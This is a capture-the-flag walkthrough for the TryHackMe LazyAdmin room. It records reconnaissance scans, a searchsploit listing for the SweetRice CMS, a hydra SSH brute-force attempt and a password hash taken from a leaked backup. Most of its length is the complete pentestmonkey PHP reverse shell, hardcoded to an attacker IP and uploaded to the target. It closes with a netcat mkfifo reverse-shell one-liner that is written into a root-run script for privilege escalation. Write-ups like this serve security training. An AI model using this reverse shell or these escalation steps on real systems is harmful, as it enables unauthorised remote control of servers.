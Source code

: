 #+TITLE: https://tryhackme.com/room/lazyadmin

* nmap

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lazy]
└──╼ # cat nmap/scan.nmap
# Nmap 7.91 scan initiated Thu Nov 12 02:43:20 2020 as: nmap -sC -sV -oA nmap/scan 10.10.62.227
Nmap scan report for 10.10.62.227
Host is up (0.12s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        # Nmap done at Thu Nov 12 02:43:48 2020 -- 1 IP address (1 host up) scanned in 28.85 seconds

#+end_src

* gobuster

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lazy]
└──╼ # gobuster dir -u 10.10.31.213/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.31.213/content
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/12 04:55:03 Starting gobuster
===============================================================
/images (Status: 301)
/js (Status: 301)
/inc (Status: 301)
/as (Status: 301)
/_themes (Status: 301)
/attachment (Status: 301)
Progress: 31190 / 87665 (35.58%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/11/12 05:00:23 Finished
===============================================================

#+end_src

* searchsploit

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lazy]
└──╼ # searchsploit sweet
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
 ------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Joomla! Component Sweetykeeper 1.5 - Local File Inclusion                                                                                                   | php/webapps/12182.txt
 SweetCMS 1.5.2 - 'index.php' SQL Injection                                                                                                                  | php/webapps/32490.txt
 SweetRice 0.5.3 - Remote File Inclusion                                                                                                                     | php/webapps/10246.txt
 SweetRice 0.6.7 - Multiple Vulnerabilities                                                                                                                  | php/webapps/15413.txt
 SweetRice 1.5.1 - Arbitrary File Download                                                                                                                   | php/webapps/40698.py
 SweetRice 1.5.1 - Arbitrary File Upload                                                                                                                     | php/webapps/40716.py
 SweetRice 1.5.1 - Backup Disclosure                                                                                                                         | php/webapps/40718.txt
 SweetRice 1.5.1 - Cross-Site Request Forgery                                                                                                                | php/webapps/40692.html
 SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                                                                                           | php/webapps/40700.html
 SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload                                                                                                       | php/webapps/14184.txt
 Zendesk App SweetHawk Survey 1.6 - Persistent Cross-Site Scripting                                                                                          | java/webapps/47781.txt
 ------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Shellcodes: No Results

#+end_src

* bruteforcing
: hydra -l root -P rockyou.txt -u 10.10.31.213 ssh
- didnt work
* found backup file
- username
  : manager
- password
  : (md5) 2f749ade7f9e195bf475f37a44cafcb

#+begin_src sql

<?php return array (
  0 => 'DROP TABLE IF EXISTS `%--%_attachment`;',
  1 => 'CREATE TABLE `%--%_attachment` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `post_id` int(10) NOT NULL,
  `file_name` varchar(255) NOT NULL,
  `date` int(10) NOT NULL,
  `downloads` int(10) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  2 => 'DROP TABLE IF EXISTS `%--%_category`;',
  3 => 'CREATE TABLE `%--%_category` (
  `id` int(4) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) NOT NULL,
  `link` varchar(128) NOT NULL,
  `title` text NOT NULL,
  `description` varchar(255) NOT NULL,
  `keyword` varchar(255) NOT NULL,
  `sort_word` text NOT NULL,
  `parent_id` int(10) NOT NULL DEFAULT \'0\',
  `template` varchar(60) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `link` (`link`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  4 => 'DROP TABLE IF EXISTS `%--%_comment`;',
  5 => 'CREATE TABLE `%--%_comment` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `name` varchar(60) NOT NULL DEFAULT \'\',
  `email` varchar(255) NOT NULL DEFAULT \'\',
  `website` varchar(255) NOT NULL,
  `info` text NOT NULL,
  `post_id` int(10) NOT NULL DEFAULT \'0\',
  `post_name` varchar(255) NOT NULL,
  `post_cat` varchar(128) NOT NULL,
  `post_slug` varchar(128) NOT NULL,
  `date` int(10) NOT NULL DEFAULT \'0\',
  `ip` varchar(39) NOT NULL DEFAULT \'\',
  `reply_date` int(10) NOT NULL DEFAULT \'0\',
  PRIMARY KEY (`id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  6 => 'DROP TABLE IF EXISTS `%--%_item_data`;',
  7 => 'CREATE TABLE `%--%_item_data` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `item_id` int(10) NOT NULL,
  `item_type` varchar(255) NOT NULL,
  `data_type` varchar(20) NOT NULL,
  `name` varchar(255) NOT NULL,
  `value` text NOT NULL,
  PRIMARY KEY (`id`),
  KEY `item_id` (`item_id`),
  KEY `item_type` (`item_type`),
  KEY `name` (`name`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  8 => 'DROP TABLE IF EXISTS `%--%_item_plugin`;',
  9 => 'CREATE TABLE `%--%_item_plugin` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `item_id` int(10) NOT NULL,
  `item_type` varchar(255) NOT NULL,
  `plugin` varchar(255) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  10 => 'DROP TABLE IF EXISTS `%--%_links`;',
  11 => 'CREATE TABLE `%--%_links` (
  `lid` int(10) NOT NULL AUTO_INCREMENT,
  `request` text NOT NULL,
  `url` text NOT NULL,
  `plugin` varchar(255) NOT NULL,
  PRIMARY KEY (`lid`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  12 => 'DROP TABLE IF EXISTS `%--%_options`;',
  13 => 'CREATE TABLE `%--%_options` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) NOT NULL,
  `content` mediumtext NOT NULL,
  `date` int(10) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `name` (`name`)
) ENGINE=MyISAM AUTO_INCREMENT=4 DEFAULT CHARSET=utf8;',
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
  15 => 'INSERT INTO `%--%_options` VALUES(\'2\',\'categories\',\'\',\'1575023409\');',
  16 => 'INSERT INTO `%--%_options` VALUES(\'3\',\'links\',\'\',\'1575023409\');',
  17 => 'DROP TABLE IF EXISTS `%--%_posts`;',
  18 => 'CREATE TABLE `%--%_posts` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) NOT NULL,
  `title` varchar(255) NOT NULL,
  `body` longtext NOT NULL,
  `keyword` varchar(255) NOT NULL DEFAULT \'\',
  `tags` text NOT NULL,
  `description` varchar(255) NOT NULL DEFAULT \'\',
  `sys_name` varchar(128) NOT NULL,
  `date` int(10) NOT NULL DEFAULT \'0\',
  `category` int(10) NOT NULL DEFAULT \'0\',
  `in_blog` tinyint(1) NOT NULL,
  `views` int(10) NOT NULL,
  `allow_comment` tinyint(1) NOT NULL DEFAULT \'1\',
  `template` varchar(60) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `sys_name` (`sys_name`),
  KEY `date` (`date`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
);?>

#+end_src

* uploaded php_reverse_shell

<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.6.27.168';  // CHANGE THIS
$port = 6969;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
* users
- itguy
  - flag
    : THM{63e5bce9271952aad1113b6f1ac28a07}
* interesting files

#+begin_src perl

www-data@THM-Chal:/home/itguy$ cat backup.pl
    cat backup.pl
    #!/usr/bin/perl

        system("sh", "/etc/copy.sh");

#+end_src

#+begin_src sh

www-data@THM-Chal:~$ cat /etc/copy.sh
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

#+end_src

* exploit

#+begin_src bash

echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local-ip> 1337 >/tmp/f' >/etc/copy.sh

#+end_src

- root.txt
  : THM{6637f41d0177b6f37cb20d775124699f}
